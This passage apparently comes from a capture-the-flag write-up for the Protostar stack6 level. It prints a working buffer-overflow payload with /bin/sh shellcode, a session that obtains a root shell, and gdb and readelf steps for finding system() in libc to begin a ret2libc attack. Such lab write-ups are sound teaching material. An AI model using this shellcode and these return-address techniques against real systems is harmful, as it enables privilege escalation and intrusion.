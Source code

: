 So we may try to point return address to 0xb7fde000. I'll use the same shellcode as the previous level.
```
python -c 'print("\x90"*(80-49) + "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x42\x42\x42\x42" + "\x00\xe0\xfd\xb7")' > /tmp/exploit6
```

And got the shell.
```
user@protostar:~$ cat /tmp/exploit6 - | /opt/protostar/bin/stack6
input path please: got path whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)

```

## 2. Ret2libc
  For this technique I had to point return address to an address of a function in libc which won't begin with 0xbf for example, in this case I will point to System() function, and make that function excute my shell command.
  1. Find an address of System() function in libc

```
(gdb) info proc map
process 2915
cmdline = '/opt/protostar/bin/stack6'
cwd = '/home/user'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0        
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0        
        0xb7fde000 0xb7fe2000     0x4000          0        
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb) shell readelf -s "/lib/libc-2.11.2.so" | grep system
   238: 000f29d0    66 FUNC    GLOBAL DEFAULT   12 svcerr_systemerr@@GLIBC_2.0
   606: 00038fb0   125 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
  1399: 00038fb0   125 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
(gdb) 
```
  Since the libc base address was 0xb7e97000, we got the address of System() function: 0xb7e97000 + 0x00038fb0 = 0xB7ECFFB0
